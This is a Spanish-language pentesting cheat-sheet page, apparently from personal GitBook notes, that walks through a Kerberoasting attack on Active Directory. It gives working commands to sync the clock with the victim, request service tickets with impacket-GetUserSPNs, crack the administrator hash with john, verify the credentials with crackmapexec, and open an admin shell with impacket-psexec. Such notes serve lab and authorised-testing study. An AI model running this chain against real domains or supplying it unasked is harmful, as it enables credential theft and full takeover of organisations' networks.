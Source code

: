 ```yaml
---
icon: ticket-perforated
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# KERBEROASTING Active Directory

Generalmente se utiliza este ataque cuando tenemos unas credenciales validas de un usuario y dicho usuario es vulnerable a un `Kerberoasting` por lo que si se diera el caso, podremos hacer lo siguiente.

## <mark style="color:purple;">Establecer al misma franja horaria con la de la maquina victima</mark>

Primero tendremos que tener la misma franja horaria con la de la maquina victima (Que los relojes esten sincronizados, por que si no dara error) y podremos hacerlo de la siguiente forma:

```shell
ntpdate <IP_VICTIM>
```

Y con esto ya estaria sincronizado, por lo que podremos hacer el ataque.

## <mark style="color:purple;">Ataque de Kerberoasting</mark>

```shell
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -request
```

Lo que estamos haciendo con este comando es intentar obtener el `ticket granting service` y con este ticket lo que podemos hacer es obtener el hash de la contraseña del usuario `administrador`.

Si lo ejecutamos lo que nos proporcionara sera el hash del usuario `administrador` que se vera algo como...

```
$krb5tgs$23$*Administrator$<DOMAIN>.LOCAL$<DOMAIN>/Administrator*$<HASH_ADMIN>...
```

Y para poder saber si es vulnerable a este ataque lo podremos ver con el siguiente comando:

```shell
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD>
```

Esto si nos devuelve informacion es que si es vulnerable.

## <mark style="color:purple;">Crackear hash admin</mark>

Copiaremos el hash que nos proporciono el comando y lo pegaremos en un archivo para posteriormente crackearlo.

```shell
nano hash

#Dentro del nano
$krb5tgs$23$*Administrator$<DOMAIN>.LOCAL$<DOMAIN>/Administrator*$<HASH_ADMIN>...
```

Lo guardamos y haremos lo siguiente:

```shell
john --wordlist=<WORDLIST> hash
```

Si todo sale bien, obtendremos la contarseña del admin en texto plano, para posteriormente conectarnos con dichas credenciales.

Podremos probar dichas credenciales con la siguiente herramienta...

## <mark style="color:purple;">Comprobacion de credenciale</mark>s

```shell
crackmapexec smb <IP_VICTIM> -u 'Administartor' -p '<PASSWORD>'
```

Y si esto nos devuelve un `[+]........(Pwn3d!)` seguido de mas informacion, veremos que son correctas.

## <mark style="color:purple;">Conexion a la maquina con admin</mark>

Por lo que ahora nos conectaremos a la maquina victima mediante dichas credenciales:

```shell
impacket-psexec <DOMAIN>/Administrator:<PASSWORD>@<IP_VICTIM> cmd.exe
```

Y con esto ya estariamos dentro como `administradores`.
